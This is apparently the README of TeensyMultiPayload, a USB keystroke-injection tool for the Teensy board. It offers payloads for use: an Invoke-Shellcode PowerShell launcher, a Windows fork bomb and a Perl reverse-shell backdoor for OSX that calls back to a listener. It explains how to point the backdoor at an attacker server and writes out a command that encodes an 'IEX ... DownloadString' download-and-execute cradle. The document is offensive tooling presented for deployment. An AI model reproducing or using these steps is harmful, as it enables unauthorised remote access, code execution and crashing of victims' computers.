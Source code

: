 # TeensyMultiPayload
TeensyMultiPayload is a program for the [Teensy] (https://www.pjrc.com/teensy/) that allows you to execute multiple payloads for multiple operating systems in seconds with different key presses.

The examples left in the code are a PowerShell command ready to be modified for Invoke-Shellcode, a fork bomb to crash windows, and a perl backdoor for OSX.
The program is entirely configurable for your own needs.
All you need to do to run the payloads after flashing is, plug in the Teensy, wait for the Teensy's LED to blink, then press CAPS LOCK, SCROLL LOCK, or NUM LOCK on the keyboard then each matching payload will execute.

To set up the perl backdoor replace 10.0.0.17:999 with your server IP address and port running a listener of some sort. Possibly netcat or Metasploit.
The fork bomb is all set and should work on all windows computers XP and up.
To generate the Invoke-Shellcode encoded command for PowerShell, modify and execute the below commands on Linux or Cygwin then replace READ_README in TeensyMultiPayload with the output.
For more information on Invoke-Shellcode see: https://github.com/PowerShellMafia/PowerSploit

``
scriptblock="IEX (New-Object Net.WebClient).DownloadString(‘Change_To_Your_InvokeShellcode_URL’);"
encode="`echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0`"
echo $encode
``

